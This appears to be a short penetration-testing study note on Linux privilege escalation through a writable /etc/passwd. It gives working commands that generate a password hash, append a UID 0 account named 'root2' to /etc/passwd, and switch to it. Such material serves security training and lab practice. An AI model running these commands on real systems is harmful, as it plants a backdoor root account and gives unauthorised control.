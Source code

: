 ```yaml
---
IP_KALI: 192.168.45.155
---
```

For backwards compatibility, if a password hash is present in the second column of an /etc/passwd user record, it is considered valid for authentication and it takes precedence over the respective entry in /etc/shadow, if available. This means that if we can write into /etc/passwd, we can effectively set an arbitrary password for any account.

Generate password hash:
```
openssl passwd w00t
```
Add new password:
```
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```
Switch to new account, root2:
```
su root2
```
